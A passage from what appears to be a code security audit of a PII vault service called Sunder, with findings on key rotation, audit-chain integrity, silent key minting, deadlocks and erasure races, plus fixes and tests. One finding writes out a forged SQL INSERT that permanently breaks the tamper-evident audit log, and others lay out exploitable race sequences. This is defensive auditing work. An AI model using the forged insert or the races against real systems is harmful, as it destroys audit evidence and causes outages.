**Impact.** Defeats the documented remedy for a compromised PII KEK. Plaintext email addresses - precisely the identifiers the vault exists to keep out of the clear, and the only place in the schema where an address appears in cleartext behind a single seal - remain recoverable under the retired key for a rolling seven-day window across every portal user, on a system whose CLI has told the operator that retirement is now safe. Rows caught in the delivery window additionally yield a live account-takeover credential for the privacy portal, which grants Article 15 access to all of that person's data and can request their erasure. This is the same defect class as S5 (`cid_blob_versions` left under a leaked KEK), fixed in commit `7855bb9`; `portal_outbox` was not enumerated then and is still not enumerated now.

**Root cause.** `rekeyVaults` hard-codes a list of three tables rather than deriving the set from the schema or from a registry of `pii-kek`-sealed columns. `portal_outbox` was given a `key_id` column by migration 0016, **after** the rekey sweep was written, and nothing in the code, the tests or the schema forces the two to stay in step. `KeyRing.Retire` performs no `WHERE key_id = <version>` reference check across the KEK-sealed tables, so the omission produces no error at retire time either.

**Fix.** Add a fourth pass to `rekeyVaults`, after the record-key loop at rekey.go:333:

```go
rows, err := c.Pool.Query(ctx, `SELECT id, payload, key_id, alg FROM portal_outbox WHERE key_id <> $1`, newestKEK)
// per row:
plain,  err := c.PII.OpenBytes(ctx, "portal-outbox", payload, keyID, alg)
sealed, err := c.PII.SealBytes(ctx, "portal-outbox", newestKEK, plain)
_, err = c.Pool.Exec(ctx, `UPDATE portal_outbox SET payload=$2, key_id=$3, alg=$4 WHERE id=$1`,
    id, sealed, newestKEK, c.PII.Algorithm())
```

Use `c.PII.Algorithm()`, not the literal `'aes256gcm'` that the wrapped-key passes hard-code. Count the pass in `RekeyStats`.

Independently, make `KeyRing.Retire` fail closed. Before marking a `pii-kek` version retired:

```sql
SELECT 'cids'              WHERE EXISTS (SELECT 1 FROM cids              WHERE pii_key_id=$1)
UNION ALL SELECT 'cid_blob_versions' WHERE EXISTS (SELECT 1 FROM cid_blob_versions WHERE key_id=$1)
UNION ALL SELECT 'value_tokens'      WHERE EXISTS (SELECT 1 FROM value_tokens      WHERE key_id=$1)
UNION ALL SELECT 'person_record_keys' WHERE EXISTS (SELECT 1 FROM person_record_keys WHERE key_id=$1)
UNION ALL SELECT 'portal_outbox'     WHERE EXISTS (SELECT 1 FROM portal_outbox     WHERE key_id=$1)
LIMIT 1
```

and refuse with the table name if any row remains. That turns any future forgotten table into a loud CLI failure instead of a silent leak.

**Test required.**
1. With `SUNDER_KEYSTORE=file`: register a person with an email, call `Portal.Start` to enqueue a login mail, assert `SELECT key_id FROM portal_outbox` is `v1`. Rotate the KEK via `ring.Rotate(ctx, crypto.KeyPIIKEK)`, run `contacts.Rekey(ctx, true, 500)`, then assert `SELECT count(*) FROM portal_outbox WHERE key_id <> <newest>` is 0. Fails on current code.
2. Assert that after the sweep, `PII.OpenBytes(ctx, "portal-outbox", payload, "v1", alg)` returns an error for every row.
3. Schema-driven guard test: enumerate every table with a `key_id` or `pii_key_id` column from `information_schema.columns` and fail if any is not covered by a rekey pass. This is the test that prevents the next table added after the sweep from repeating the omission.
4. `TestRetireRefusesWhileReferenced` - assert `KeyRing.Retire` errors while any of the five tables still references the version.

---

### AUDIT-CHAIN-1 - A single plain INSERT of a sealed-looking audit row with NULL `chain_seq` permanently destroys sealing, verification and anchoring, and takes the whole API down in sync mode

**Severity:** HIGH | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DATA_INTEGRITY

**Location:** `internal/audit/audit.go:141-149` - `sealedHead`; `:178` - sync `AppendTx` head read; `:272` - `sealBatch` head read; `:383-400` - `Verify` scan; `:431-437` - `Head`. `internal/store/migrations/0021_audit_decoupled_sealing.sql` - `audit_append_only` has no INSERT branch. `internal/store/migrations/0033_audit_hash_v2_and_guards.sql:33-39` - the analogous guard exists only for `audit_read_buckets`.

**Problem.** `sealedHead` is the single head-read used by sync `AppendTx`, by the sealer, by `Head`/anchoring, and in mirrored form by `Verify`. It runs:

```sql
SELECT hash, chain_seq FROM audit WHERE hash IS NOT NULL ORDER BY chain_seq DESC LIMIT 1
```

and scans `chain_seq` into a **non-nullable** Go `int64`. In PostgreSQL, `ORDER BY ... DESC` defaults to `NULLS FIRST`, so any row with `hash IS NOT NULL AND chain_seq IS NULL` sorts to position 1 and the scan fails with `cannot scan NULL into *int64`.

Nothing forbids inserting such a row. `0001_init.sql:53-64` defines `audit` with `hash NOT NULL`; `0021` line 21 does `ALTER TABLE audit ALTER COLUMN hash DROP NOT NULL` and adds a nullable `chain_seq`. I grepped every trigger and constraint on `audit` across all 34 migrations: only `audit_no_update` (BEFORE UPDATE OR DELETE, `0001:91`) and `audit_no_truncate` (`0001:93`). There is **no** BEFORE INSERT trigger and **no** CHECK tying `hash` to `chain_seq`. Migration 0033 added exactly this class of INSERT guard for `audit_read_buckets` - `audit_read_buckets_no_forged_seal()`, whose own comment notes that "INSERT is exactly the privilege the API role must hold" - and did not add the equivalent for `audit` itself.

The application cannot produce such a row: all three INSERT sites (audit.go:169, :189, :210) write a fixed column set. This defect therefore requires an attacker who already holds direct SQL `INSERT` on `audit` - which is precisely the privilege `docs/CONFIG.md:75` and `docs/THREAT-MODEL.md:143-150` tell operators to grant the API role in the **hardened** split-role posture.

**Why it matters.** The hardened posture's stated guarantee is that "the API role gets INSERT but no UPDATE on audit ... A compromised API can then insert lies but can never seal them itself nor forge hashes over its own rows", and `THREAT-MODEL.md:146-150` calls it "STRONGER than the pre-P4.1 single-role setup". That mitigation is defeated: the compromised API role does not need to seal anything. It needs one malformed INSERT.

**Failure / attack scenario.** Verified end-to-end against PostgreSQL 16 with the repo's own migrations and helpers.

1. Append 3 rows, drain, run `Verify` -> `broken=0`. Baseline healthy.
2. With nothing but plain INSERT privilege - no trigger bypass, no UPDATE, no DELETE - run:
   ```sql
   INSERT INTO audit (ts, client_id, action, detail, hash)
   VALUES (now(), 'x', 'x', 'null', 'deadbeef');
   ```
   Accepted. `chain_seq` is NULL, `hash` is not.
3. From that moment, permanently:
   - `sealedHead` -> `can't scan into dest[1] (col: chain_seq): cannot scan NULL into *int64`.
   - `Verify` -> the same error. Note it returns an **error**, not a break verdict, so `/v1/admin/audit/verify` answers HTTP 500 `internal` (api/audit.go:39-43) and `sunder verify-audit` exits with a scan error rather than reporting "BROKEN".
   - `SealOnce` -> the same error, 0 rows sealed. **No audit row ever enters the chain again.**
   - `Head` -> `audit head: cannot scan NULL into *int64`, so `sunder anchor` can never stamp again.
   - Under `SUNDER_AUDIT_SEALING=sync`, `Append`/`AppendTx` -> the same error; because every audited mutation is fail-closed inside its business transaction, register, erase, consent, OTI-verify, tokenize and file-upload all fail. **Total service outage.**
4. Repair is impossible from SQL:
   - `DELETE FROM audit WHERE hash='deadbeef'` -> `ERROR: audit log is append-only`.
   - `UPDATE audit SET chain_seq=999 WHERE hash='deadbeef'` -> the same; the 0033 allowed branch requires `OLD.hash IS NULL`.
   Only a DBA disabling the append-only trigger can recover, which is itself the act the log exists to make impossible.

A variant with a bogus **non-NULL** `chain_seq` - say 10^9 - instead makes `Verify` report a permanent false `chain_seq gap: expected N (sealed record deleted?)`, equally unrepairable.

**Impact.** Permanent, unrepairable destruction of every audit-chain guarantee from one INSERT: nothing seals, nothing verifies, nothing can be anchored, and the tamper evidence for everything written afterwards is gone. In sync mode it is additionally a full denial of service of the vault. No PII is disclosed and no authentication or authorisation is bypassed, which is why this is HIGH rather than CRITICAL - but for a system whose value proposition is the tamper-evident log, it destroys the product's core guarantee and does so from the exact privilege the hardening guide recommends granting.

**Root cause.** The `audit` table's invariant - "`hash` and `chain_seq` are set together, or neither is" - is enforced only by application convention, never by the schema, while every consumer treats it as guaranteed by using non-nullable Go scan targets, and the `ORDER BY DESC` NULLS-FIRST default puts the violating row first. The 0033 hardening pass fixed this exact class for `audit_read_buckets` and did not carry it to `audit`.

**Fix.** Two layers.

(a) **Schema**, in a new migration - the real fix:
```sql
ALTER TABLE audit ADD CONSTRAINT audit_seal_consistent
  CHECK ((hash IS NULL) = (chain_seq IS NULL));
```
This is legal for both write modes: async inserts both NULL, sync inserts both set, and sealing sets both. Consider additionally a BEFORE INSERT trigger rejecting a non-NULL `hash` whose `chain_seq` is not exactly `(SELECT coalesce(max(chain_seq),0)+1 FROM audit)`, so a compromised INSERT-only role also cannot mint gaps.

(b) **Code**, so a pre-existing bad row degrades to a verdict instead of an outage:
- `sealedHead` (audit.go:143): `WHERE hash IS NOT NULL AND chain_seq IS NOT NULL ORDER BY chain_seq DESC LIMIT 1`.
- `Verify` (audit.go:383): scan `chain_seq` into a `*int64` or `pgtype.Int8` and return `(chainSeq, "sealed row with NULL chain_seq (forged insert)")` as a **break**, never as an error.

**Test required.**
1. Integration test in `internal/audit`: append and drain a few rows, then run `INSERT INTO audit (ts,client_id,action,detail,hash) VALUES (now(),'x','x','null','deadbeef')` and assert the INSERT is **refused** with SQLSTATE 23514.
2. Bypass the constraint once (disable it), then assert `Verify` returns a non-zero `brokenSeq` **with a reason and `err == nil`**, that `SealOnce` still seals fresh rows, and that `Head` still returns the real head - i.e. one forged row degrades the verdict and never the machinery.
3. The non-NULL variant: insert `chain_seq = 1000000000` and assert `Verify` reports it as a break rather than as a permanent gap error.

---

### OPS-CLI-CONFIG-1 - The file keystore mints fresh key material completely silently: the "never mint silently" warning was deleted, not moved, and the DR runbook's only detection step depends on it

**Severity:** HIGH | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DATA_INTEGRITY

**Location:** `internal/crypto/keystore.go:98-149` - `FileKeystore.Ensure`; `:151-177` - `FileKeystore.writeKey`; `:231` - `VaultKeystore.Ensure`, the only surviving warning in the package. `internal/service/keyring.go:126-148` - `KeyRing.EnsureAll`. `internal/api/server.go:112-121` - `New` -> `EnsureAll`. `cmd/sunder/main.go:1059-1063` - `bootstrapCmd`; `:618-621` - `keys rekey`. `cmd/sunder/import.go:99-103`.

**Problem.** `FileKeystore.Ensure` -> `writeKey` generates 32 fresh random bytes and installs them as `hmac-email/v1`, `hmac-phone/v1`, `hmac-name/v1`, `pii-kek/v1` and `oti-sign/v1` whenever the key file is absent, with **no log line, no metric, no audit row and no non-zero exit**.

Commit `e289216` states that the "keystore mint-warning moved to the writeKey choke point so it fires on the common lost-volume path (not only stale-lock reclaim)". `git show e289216 -- internal/crypto/keystore.go` is a **pure deletion** of the `slog.Warn` from `ensureLocked` and adds nothing to `writeKey`. The only `slog.` call remaining anywhere in `internal/crypto` is `keystore.go:231`, in the Vault driver. The commit message describes a change that was not made.

`KeyRing.EnsureAll` runs unconditionally at every `serve` start (server.go:112-121), so a process that boots with a populated `keys` table - five rows seeded by migration `0002_seed_keys.sql` - and an empty keystore directory mints replacement material for versions that already have data encrypted and tokenized under them, then reports healthy: `/healthz` 200, `/readyz` 200, no warning in the JSON log.

**Why it matters.** The strictness the product's security posture advertises applies to `Key()`, which refuses to mint. `Ensure()` runs on every boot and does not.

**Failure / attack scenario.**
1. Production runs `SUNDER_KEYSTORE=file` with `SUNDER_KEYSTORE_PATH=/keystore` - the shipped docker-compose default and the documented single-node pilot posture.
2. The keystore volume is lost, unmounted, or the unit is restarted with a different working directory. Note the default path is the **relative** `./keystore` (config.go:168), so a changed working directory is sufficient.
3. The pod or process starts. `st.Migrate` succeeds against the intact database. `api.New` -> `KeyRing.EnsureAll` reads `keys` - five rows, all ACTIVE - and calls `eng.Ensure("pii-kek/v1")` and the rest.
4. `FileKeystore.Ensure` finds no file (keystore.go:105), takes the `O_EXCL` lock (`:112`), and `writeKey` (`:151`) mints new random material and atomically renames it into place.
5. The server logs `"listening"` and serves. Every `POST /v1/lookup` now returns 404 for contacts that exist, every attribute read fails to decrypt, and every previously issued OTI stops verifying - with **zero** operator-visible signal that a key was created.
6. `docs/RUNBOOK-BACKUP-DR.md:36-39` instructs the operator at restore step 3: "if it mints a key that should have existed, you restored the wrong keystore: **stop**". Under the file driver there is no way to observe that condition.

**Impact.** Permanent, silent loss of access to all PII - `cids.pii_encrypted`, `cid_blob_versions.blob`, `value_tokens.ciphertext`, and every file DEK via `person_record_keys.wrapped` - plus unmatchable search tokens, presented to operators and to monitoring as a healthy service. The window in which the mistake is cheap to reverse, by remounting the correct volume, closes silently. It also falsifies the two claims the product's key-management posture rests on: `THREAT-MODEL.md:10` "strict no-mint keystore" and `docs-site/docs/admin/backup-dr.md:126` "the strict, no-mint keystore is what turns a silent mismatch into visible 404s". The code does not itself destroy data - the loss requires an operator-side lost or misconfigured volume - which is why this is HIGH rather than CRITICAL; what the code contributes is the removal of the only detection signal, and a regression against its own commit message.

**Root cause.** The mint warning lived in `ensureLocked`, in the stale-lock-reclaim branch only. Commit `e289216` correctly identified that this missed the common path, deleted it, and never added the replacement in `writeKey`. No test asserted on the warning, so CI stayed green - grepping for "minting" or "lost volume" across the tree finds nothing but the Vault string and unrelated comments.

**Fix.** Put the warning at the single choke point the commit message already named - the top of `FileKeystore.writeKey` (keystore.go:151), through which every file-driver mint path funnels:

```go
func (f *FileKeystore) writeKey(p string) error {
    slog.Warn("keystore: minting NEW key material; if this key was expected to exist, its volume may be lost and existing data is unrecoverable", "path", p)
    ...
}
```

Stronger, and worth doing on top: make minting an explicit act rather than a boot side effect. Add `SUNDER_KEYSTORE_ALLOW_MINT`, or a `-mint` flag on `bootstrap`/`keys`, that `KeyRing.EnsureAll` requires whenever a `keys` row exists whose material is absent, so `serve` fails closed on a lost volume instead of manufacturing a healthy-looking empty vault. Export a `sunder_keystore_minted_total` counter and add an alert rule for it to `ops/prometheus-alerts.yaml`.

**Test required.**
1. Unit test against `FileKeystore` with an `slog` handler captured into a buffer: `Ensure(ctx, "pii-kek/v1")` on an empty directory must emit exactly one WARN record naming the key; a second `Ensure` for the same name, with the file now present, must emit none.
2. The symmetric assertion for the stale-lock-reclaim branch - create `<p>.lock` with an mtime 60s in the past - so both entries into `writeKey` are covered.
3. End-to-end: boot `api.New` with a populated `keys` table and an empty keystore directory, and assert the warning is present. With the `ALLOW_MINT` gate, assert `serve` refuses to start instead.

---

## 4. Concurrency Findings

Sunder's concurrency posture is split, and the split is not documented anywhere in the code. A small set of invariants is genuinely enforced by PostgreSQL and survives any number of replicas: the identifier-uniqueness index `person_tokens_ident_uq (kind, token)`, the partial index `value_tokens_unique_uq (scope, COALESCE(cid,''), unique_hash)`, the `FOR UPDATE OF c, p` blob guard used by `mergeIntoBlob` (contacts.go:585-590), `Files.Upload` (files.go:276-278) and `tokenizeInTx` (valuetoken.go:385-388), the `FOR UPDATE SKIP LOCKED` claim in both outbox workers, the `pg_advisory_xact_lock(0x53554E44)` that serialises chained audit appends under `SUNDER_AUDIT_SEALING=sync`, `pg_advisory_xact_lock(0x53554E4D)` around migrations, and the append-only triggers on `audit`, `audit_anchor` and `audit_read_buckets`. Everything else that looks like mutual exclusion is process-local and protects nothing on a second replica: `KeyRing.mu` plus its 30-second read-through cache, whose `Invalidate()` mutates one process's map while `keys rotate`/`keys retire` change shared Postgres state and destructively `DELETE FROM person_tokens` (CONCURRENCY-CORE-3, CONCURRENCY-CORE-4 in §6); `FileKeystore.f.mu` together with an `O_EXCL` lock file whose stale-reclaim path abandons mutual exclusion entirely (CONCURRENCY-CORE-6 / CRYPTO-6); the playground's `Sessions.mu`/`Session.mu` pair (GAP-4); and the in-memory `ratelimit.Limiter` fallback when Redis is absent or failing open (AUTHZ-3 in §5). Two of the three durable queues have no working lease at all — `portal_outbox.claimed_at` was added by migration 0018 for exactly that purpose and is never written or read (QUEUE-WORKER-2, and its duplicates CONCURRENCY-CORE-2 and DB-TXN-6 in §7), and `erasure_events` has neither a lease column nor a reaper (CONCURRENCY-CORE-1, DB-TXN-2, QUEUE-WORKER-1, GDPR-ERASURE-3, OPS-CLI-CONFIG-2, TESTS-3, DOCS-3 in §3). The largest remaining class is check-then-act across a transaction boundary against `persons.erased_at`: three writers were hardened with an in-transaction locking re-check and five were not (GDPR-ERASURE-5 / DB-TXN-4, GDPR-ERASURE-6). Finally, the lock-order convention the erasure documents over `cids` → `persons` (gdpr.go:455-460) is not closed, because `oti` participates in it from outside (DB-TXN-3).

### DB-TXN-3 — Lock-order inversion between `erasePerson` and `OTI.VerifyFull` deadlocks: erasure locks cids→persons→oti while verify locks oti then persons via the cids FK
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** CONCURRENCY
**Location:** `internal/service/gdpr.go:461-462`, `:468-469`, `:572-576` (erasePerson's cids `FOR UPDATE`, persons `FOR UPDATE`, `UPDATE oti`) vs `internal/service/oti.go:299-303` (`UPDATE oti`) + `:335` `ensureCID` → `internal/service/contacts.go:378-381` (`INSERT INTO cids`) and `internal/service/oti.go:468-471` (`SELECT cids … FOR UPDATE`)

**Problem.** `erasePerson` documents and follows a cids → persons lock order (comment at gdpr.go:455-460) and then, much later in the same transaction, takes an exclusive row lock on the person's `oti` rows (`UPDATE oti SET status='REVOKED'`, gdpr.go:572-576). `OTI.VerifyFull` takes those locks in the opposite order: it first locks the `oti` row (`UPDATE oti SET status='USED' … WHERE status='VALID'`, oti.go:299-303) and only afterwards touches persons/cids — either through `ensureCID`'s `INSERT INTO cids` (contacts.go:378-381), whose foreign key forces `SELECT 1 FROM ONLY persons x WHERE id = $1 FOR KEY SHARE OF x` (conflicts with erasePerson's `SELECT … FROM persons … FOR UPDATE`), or, when the verifier scope already has a CID, through `shareIntoScope`'s `SELECT … FROM cids WHERE cid=$1 FOR UPDATE` (oti.go:468-471), which collides with erasePerson's blanket `SELECT 1 FROM cids WHERE person_id=$1 FOR UPDATE`. Both branches close an ABBA cycle. `VerifyFull` never re-checks the tombstone inside its transaction either — unlike `mergeIntoBlob` (contacts.go:585-590), `Files.Upload` (files.go:276-278) and `tokenizeInTx` (valuetoken.go:385-388), which all take `FOR UPDATE OF p` precisely for this.

**Why it matters.** The code's own claim that the c→p order eliminates ABBA (gdpr.go:455-460) is false, because `oti` sits outside that ordering, and nothing retries SQLSTATE 40P01. The victim of the deadlock is chosen by PostgreSQL, not by the application, so an Article 17 erasure can be the side that loses.

**Failure / attack scenario.** A cross-scope handoff verify racing a privacy-officer erasure of the same person:
1. V (`POST /v1/oti/verify`): `BEGIN`; `UPDATE oti SET status='USED' WHERE jti=$1 AND status='VALID'` → 1 row; V now holds that `oti` tuple.
2. E (`POST /v1/dsr/erase`): `BEGIN`; `SELECT 1 FROM cids WHERE person_id=$1 FOR UPDATE`; `SELECT erased_at … FROM persons WHERE id=$1 FOR UPDATE`; … `UPDATE cids SET pii_encrypted=NULL …`; then `UPDATE oti SET status='REVOKED' WHERE status='VALID' AND cid IN (…)` → blocks on V's `oti` tuple.
3. V: `ensureCID` for the verifier's scope → `INSERT INTO cids (…)` → the FK trigger runs `SELECT 1 FROM ONLY "public"."persons" x WHERE "id" OPERATOR(pg_catalog.=) $1 FOR KEY SHARE OF x` → blocks on E's persons `FOR UPDATE`.
4. Cycle. Reproduced verbatim on PostgreSQL 14.23 with this exact statement sequence: `ERROR: deadlock detected` / `DETAIL: Process X waits for ShareLock on transaction 757; blocked by process Y. Process Y waits for ShareLock on transaction 756; blocked by process X.` / `CONTEXT: while locking tuple (0,7) in relation "persons"`.

The window is E's entire transaction up to gdpr.go:572 (crypto-shred, `erasures` INSERT, per-scope `erasure_events` INSERTs, blob NULL-out and eight DELETEs), so it is wide, not a microsecond race. One caveat: if the verifier scope already has a CID **and** `share_attrs` is empty, `shareIntoScope` returns before its `FOR UPDATE` (oti.go:459-461) and no cycle forms — the deadlock needs a new verifier CID or a non-empty attribute share, both ordinary.

**Impact.** PostgreSQL aborts one of the two with SQLSTATE 40P01. If the verify loses, a legitimate cross-scope handoff returns 500 and the caller must re-issue while the OTI's 5-minute window is ticking (its `USED` transition rolls back, so the token is not burned). If the erasure loses, an Article 17 request returns 500 and the person is not erased until someone retries — and nothing retries automatically. Neither path corrupts data.

**Root cause.** The lock-order convention was defined over two tables (`cids`, `persons`) and enforced only in the three blob/file/token writers. `VerifyFull`'s single-use transition takes an `oti` row lock as its FIRST lock and then reaches persons/cids implicitly through a foreign key and through `shareIntoScope`, so it participates in the order without following it. `erasePerson` compounds it by deferring its `oti` revoke to the tail of a long transaction that already holds cids and persons.

**Fix.** Make `VerifyFull` acquire the person locks in the same order as `erasePerson`, before it touches `oti`. Immediately after `BEGIN` (oti.go:290) and before the single-use UPDATE:

```go
var live bool
err = tx.QueryRow(ctx, `SELECT NOT p.erased_at IS NOT NULL
                          FROM cids c JOIN persons p ON p.id=c.person_id
                         WHERE c.cid=$1 FOR UPDATE OF c, p`, claims.CID).Scan(&live)
if err == pgx.ErrNoRows || (err == nil && !live) { return nil, ErrTokenInvalid }
```

With c and p taken first the pair orders identically to `erasePerson`, the `oti` lock becomes the last edge, and no cycle is possible; it also supplies the missing in-transaction tombstone check. Alternatively (or additionally) move `erasePerson`'s `UPDATE oti SET status='REVOKED'` (gdpr.go:572-576) to immediately after the cids/persons locks at :461-474, so erasure holds all three locks in one contiguous prefix. Whichever is chosen, add a bounded retry on SQLSTATE 40P01 around `erasePerson` and `VerifyFull` so a detected deadlock is retried once rather than surfaced as a 500.

**Test required.** Integration test with two goroutines and a synchronisation barrier: goroutine V runs `VerifyFull` for an OTI addressed to a scope the person has no CID in; goroutine E runs `erasePerson` for the same person; release them so V's `oti` UPDATE lands first and E reaches its cids/persons locks before V reaches `ensureCID`. Assert neither call returns a `pgconn.PgError` with Code `"40P01"`. Repeat the variant where the verifier scope already has a CID (exercising `shareIntoScope`'s `FOR UPDATE`). Both deadlock today.

### GDPR-ERASURE-5 / DB-TXN-4 — Consent, share and link writes check the tombstone on the pool and commit after the erasure has swept them (merged: same root cause, four writers)
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** CONCURRENCY
**Location:** `internal/service/gdpr.go:78` + `:90-118` (SetConsent), `internal/service/shares.go:73` + `:85-105` (Shares.Create), `internal/service/links.go:51-58` + `:59-77` (Links.Link), `internal/service/portal.go:473` + `:479-496` (Portal.SetConsent); erasure counterparts `internal/service/shares.go:210-216` (deleteSharesForCID, called from gdpr.go:543), `internal/service/gdpr.go:536-539` (consents), `:556` (person_links); readers with no tombstone predicate `internal/service/links.go:135-143`, `internal/service/shares.go:112-149`; contrast the hardened pattern at `internal/service/contacts.go:585-590`, `internal/service/files.go:276-283`, `internal/service/valuetoken.go:385-400`

**Problem.** Three of Sunder's blob/file/token writers were hardened against the erasure race by re-reading the tombstone INSIDE the transaction under `FOR UPDATE OF p` (contacts.go:570-584 explains why an earlier pool check is insufficient under READ COMMITTED and EvalPlanQual). Four other person-scoped writers were not. `SetConsent`, `Shares.Create`, `Links.Link` and `Portal.SetConsent` all resolve the person with `personForClientCID` / `ownCID` on the **pool** (gdpr.go:78, shares.go:73, links.go:51-58, portal.go:473) and then open a transaction that inserts a row keyed by that cid/person with no lock and no re-check. Between the check and the insert there are several round trips: for shares, `consentDenied` (shares.go:76), `Begin`, the INSERT, and `audit.AppendTx` — which under `SUNDER_AUDIT_SEALING=sync` takes the instance-wide `pg_advisory_xact_lock(0x53554E44)` and can block for a long time; for links, two `personForClientCID` calls, `Begin`, INSERT and the same audit append.

`erasePerson` deletes exactly these rows at fixed points inside its transaction: `DELETE FROM consents` (gdpr.go:536-539), `deleteSharesForCID` (gdpr.go:543), `DELETE FROM person_links WHERE parent_person=$1 OR child_person=$1` (gdpr.go:556). It holds no predicate lock that would block a later insert. The FK-lock objection does not save it: `shared_records.cid REFERENCES cids(cid)` (migration 0029) and `person_links.{parent,child}_person REFERENCES persons(id)` (0028), so the INSERTs take `FOR KEY SHARE` and **do** conflict with erasure's `FOR UPDATE` — but the referenced `cids`/`persons` rows are deliberately RETAINED as tombstones, so the writer merely blocks, the FK re-check passes, and the row lands after the DELETE already ran.

The surviving rows are then reachable, because neither reader carries a tombstone predicate: `Links.List` joins `person_links pl JOIN cids c ON c.person_id = pl.child_person` with no `persons` filter (links.go:135-143) in both UNION arms, and `Shares.Fetch` (shares.go:112-149) has no `erased_at` check at any point, nor does `decryptCID` (contacts.go:552-565).

**Why it matters.** `deleteSharesForCID` deletes rather than revokes precisely because "an erased person's pseudonym must not linger in the row at all (a 'table survives Article 17' leak)" (shares.go:207-209), and the `person_links` DELETE exists because "a link referencing the erased person … would otherwise keep leaking their pseudonym through the surviving side's link listing, and could not be removed via the API" (gdpr.go:553-556). Both guarantees are void in the race, and `Unlink` (links.go:85-91) 404s on a tombstoned endpoint, so the surviving link row is unremovable through the API.

**Failure / attack scenario.** Share case — client X (scope `crm`, actions `shares.create` + `attributes.read`, purpose `support`) and the privacy officer act concurrently on person P / cid C:
1. T0 — X: `POST /v1/shares {cid:C, fields:["iban"], purpose:"support", ttl_seconds:7776000}`. `personForClientCID(C)` (shares.go:71/73) → P is live.
2. T1 — X: `consentDenied(C,"support")` (shares.go:76) → allowed. `s.Pool.Begin` (shares.go:82/85).
3. T2 — Officer: `POST /v1/dsr/erase {cid:C}`. `erasePerson` locks cids then persons, runs `DELETE FROM shared_records WHERE cid IN (SELECT cid FROM cids WHERE person_id=P)` (shares.go:212 via gdpr.go:543) — X's row does not exist yet, 0 rows — sets `erased_at`, COMMITS. HTTP 200.
4. T3 — X: `INSERT INTO shared_records (uuid, cid, scope, fields, partner_label, expires_at, created_by, purpose) VALUES (…)` (shares.go:88-92) with cid=C. `audit.AppendTx`, `tx.Commit` (shares.go:100). HTTP 200 with the share UUID.
5. Post-state: a live `shared_records` row holds the erased person's pseudonym, the partner label, the requested field names and the purpose, unrevoked, for up to 90 days. `GET /v1/shares/{uuid}` returns 200 (and writes a `shares.fetch` audit row with `matched:true`) instead of the 404 the erasure was supposed to produce; `PruneShares` only removes it 30 days after expiry.

Link case, same shape: the officer erases P at T2 (running `DELETE FROM person_links WHERE parent_person=P OR child_person=P`, gdpr.go:556) between `Links.Link`'s `personForClientCID` calls (links.go:51/55) and its INSERT (links.go:64). `GET /v1/contacts/{surviving-cid}/links` then returns P's pseudonym and link_type to the surviving side forever, and `Unlink` on that pair 404s. Consent case, same shape via gdpr.go:536 and portal.go:473; if the consent INSERT instead lands *before* the erasure's DELETE the pair deadlocks (40P01), so the outcome is either a surviving row or an abort — never a clean refusal.

**Impact.** Tables the erasure code explicitly promises to empty retain rows keyed to the erased person: their pseudonym plus, for shares, the partner label, the disclosed field names and the purpose; for links, the relationship type and the counterparty; for consents, `(pseudonym, purpose, granted)` against the stated intent that "Consent STATE dies with the person" (gdpr.go:532-535). The link row is permanently unremovable through the API. The share stays live and fetchable (publicly, under `SUNDER_SHARES_PUBLIC`) and its `shares.fetch` audit rows keep appending the erased pseudonym to an append-only chain. No attribute VALUES leak on their own, because the blob is NULL — but combined with GDPR-ERASURE-1 (§3, a resurrected blob) the surviving share becomes a live read channel for the erased person's attributes.

**Root cause.** Check-then-act across transaction boundaries: `personForClientCID` runs on `Pool` and its result is treated as durable for the rest of the request. The remediation applied to the file, value-token and blob writers — move the `erased_at` predicate into a `FOR UPDATE` read inside the same transaction as the write, so `persons` is the serialisation point with `erasePerson`'s opening guard — was never extended to shares, links or consents. Compounded by the read paths relying on the delete having happened rather than testing the tombstone themselves.

**Fix.** Add the locking re-check as the first statement after `BEGIN` in each of the four writers (gdpr.go:90, shares.go:85, links.go:59, portal.go:479) and fail closed:

```go
var live bool
err := tx.QueryRow(ctx, `SELECT NOT p.erased_at IS NOT NULL
                           FROM cids c JOIN persons p ON p.id=c.person_id
                          WHERE c.cid=$1 AND c.scope=$2 FOR UPDATE OF p`, cid, client.Scope).Scan(&live)
if err == pgx.ErrNoRows || (err == nil && !live) { return ErrNotFound }
```

Lock `persons` only, never `cids`, to preserve `erasePerson`'s c→p order (the ABBA reason documented at valuetoken.go:376-379 and DB-TXN-3 above). For links, lock BOTH endpoints in a deterministic order (e.g. by person id ascending) so two concurrent `Link` calls on the same pair cannot ABBA. Add the defence-in-depth predicates too: join `persons … erased_at IS NULL` in `Links.List` (links.go:136-142, both UNION arms) and in `Shares.Fetch`'s lookup (shares.go:114-119, e.g. `JOIN cids c ON c.cid = sr.cid JOIN persons p ON p.id = c.person_id AND p.erased_at IS NULL`), so a stray row is a clean 404 rather than a 200.

**Test required.** Two integration tests per writer. (1) Race: register P; start the writer with a test hook pausing between `personForClientCID` and the INSERT; erase P from a second goroutine; release; assert the writer returns `ErrNotFound` and `SELECT count(*)` on `consents` / `shared_records` / `person_links` for the person's cids is 0. (2) No race needed: register P and a counterparty, link them, erase P, then INSERT a `person_links` row for P by hand and assert `Links.List` for the counterparty does not return P's cid; likewise INSERT a `shared_records` row for an erased cid and assert `Shares.Fetch` returns `ErrNotFound`. Extend `TestErasureInvariantSweep` with a concurrent-writer phase so the sweep gate covers races, not just steady state.

### GDPR-ERASURE-6 — `OTI.IssueFull` signs and inserts outside the tombstone check, and `VerifyFull` then mints a fresh live `cids` row for the tombstoned person
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** CONCURRENCY
**Location:** `internal/service/oti.go:124` (personForClientCID), `:149` (Eng.Sign), `:155` (Begin), `:171-173` (INSERT INTO oti); consumed at `oti.go:286-341` (VerifyFull: USED transition `:311-315`, `ensureCID` `:335`) and `oti.go:445-472` (shareIntoScope); erasure counterpart `internal/service/gdpr.go:572-576`; `ensureCID` at `internal/service/contacts.go:363-383`

